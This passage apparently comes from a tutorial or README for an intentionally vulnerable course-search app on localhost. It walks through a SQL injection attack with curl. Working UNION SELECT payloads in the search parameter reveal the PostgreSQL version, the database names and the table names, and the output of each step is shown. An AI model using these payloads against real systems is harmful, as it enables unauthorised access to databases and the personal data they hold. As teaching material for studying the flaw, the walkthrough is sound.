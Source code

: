 You can confirm this using your browser or other client. For example, visit `http://localhost/search?prefix=Intro' UNION SELECT 1, VERSION(), NULL, NULL--` or invoke the request with `curl`:

```sh
$ curl http://localhost/search\?prefix\=Intro%27%20UNION%20SELECT%201,%20VERSION\(\),%20NULL,%20NULL-- | jq
[
  {
    "id": 1,
    "title": "PostgreSQL 13.16 on aarch64-unknown-linux-musl, compiled by gcc (Alpine 13.2.1_git20240309) 13.2.1 20240309, 64-bit",
    "description": null,
    "instructor": null
  }
]
```

**Now that the attacker knows that the database appears to be Postgres, they can then write a query to list databases. (`http://localhost/search?prefix=Intro' UNION SELECT 1, datname, NULL, NULL FROM pg_database--`)**

```sh
$ curl http://localhost/search\?prefix\=Intro%27%20UNION%20SELECT%201,%20datname,%20NULL,%20NULL%20FROM%20pg_database-- | jq
[
  {
    "id": 1,
    "title": "template0",
    "description": null,
    "instructor": null
  },
  {
    "id": 1,
    "title": "coursedb",
    "description": null,
    "instructor": null
  }
]
```

...tables...

**(`http://localhost/search?prefix=Intro' UNION SELECT 1, table_name, NULL, NULL FROM information_schema.tables WHERE table_schema='public'--`):**

```sh
$ curl http://localhost/search\?prefix\=Intro%27%20UNION%20SELECT%201,%20table_name,%20NULL,%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20\=%20%27public%27-- | jq
[
  {
    "id": 1,
    "title": "students",
    "description": null,
    "instructor": null
  },
  {
    "id": 1,
    "title": "course_students",
    "description": null,
    "instructor": null
  },
  {
    "id": 1,
    "title": "courses",
    "description": null,
    "instructor": null
  }
```